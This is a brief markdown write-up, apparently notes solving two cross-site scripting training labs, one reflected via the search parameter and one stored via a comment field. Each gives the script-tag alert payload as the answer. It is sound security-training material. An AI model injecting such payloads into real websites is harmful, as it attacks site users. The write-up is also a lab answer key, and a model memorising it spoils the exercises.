


# XSS

## Reflected XSS into HTML context with nothing encoded

```text
This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function.
```

`?search`に対し

```html
<script>alert(document.domain)</script>
```




## Stored XSS into HTML context with nothing encoded

```text
This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
```

commentに対して

```html
<script>alert(document.domain)</script>
```




